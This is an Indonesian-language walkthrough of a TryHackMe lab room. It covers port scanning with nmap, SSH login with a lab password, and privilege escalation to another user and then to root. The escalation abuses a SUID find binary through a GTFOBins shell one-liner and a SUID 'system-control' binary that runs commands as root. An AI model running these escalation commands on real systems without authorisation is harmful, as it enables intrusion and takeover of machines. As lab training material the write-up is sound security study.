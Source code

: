 hidupkan THM machine untuk menyelesaikan task.

Q1:What port is SSH running on?
Q2:Find and run a ile as igor. Read the file /home/igor/flag1.txt
Q3:Find another binary file that has SUID bit set. Using this file, can you become the root
user and read the /root/flag2.txt file?


A1:
gunakan `nmap` untuk melakukan scanning port. untuk melakukannya secara lebih cepat,
dapat menggunakan command berikut:
```
nmap -p- -v --min-parallelism 100 <IP>
```

A2:
selanjutnya konek ke ssh dengan user, ip dan port yang sudah didapatkan dengan command
```
ssh holly@<IP> -p PORT

enter password : tuD@4vt0G*TU
```
untuk dapat membaca flag1.txt kita perlu menjadi user `igor`. kita dapat melakukannya dengan
melakukan privilege escalation dengan mencari file SUID binary. kita dapat melakukannya
dengan command
```
find / -perm /4000 -exec ls -la {} \; 2>/dev/null
```
nantinya akan ketemu file SUID milik igor, yang dapat di eksekusi juga oleh grup, yaitu
`/usr/bin/find`. kita dapat melakukan privesc dengan command yang sudah disediakan oleh
[GTFOBins](gtfobins.github.io), yaitu
```
<full path of file>/find . -exec /bin/sh -p \; -quit
```
setelah kita run, maka nantinya kita dapat berpindah menjadi user igor, kita dapat
mengeceknya dengan run command `whoami`. jika sudah, kita dapat melihat isi dari
flag1.txt dengan cara
```
cat /home/igor/flag1.txt
```

A3:
untuk dapat berpindah privilege yang lebih tinggi, yaitu menjadi `root`, kita perlu mencari
file SUID yang lain. dan yang bisa kita gunakan adalah file `/usr/bin/system-control`.
ketika kita langsung memasukkan itu dalam command, nantinya kita dapat input command dan
dijalankan sebagai root. jadi kita bisa melihat isi dari flag yang kedua
```
holly@ip-10-10-156-19:~$ /usr/bin/system-control

===== System Control Binary =====

Enter system command: ls /root
flag2.txt  snap

holly@ip-10-10-156-19:~$ /usr/bin/system-control

===== System Control Binary =====

Enter system command: cat /root/flag2.txt
```
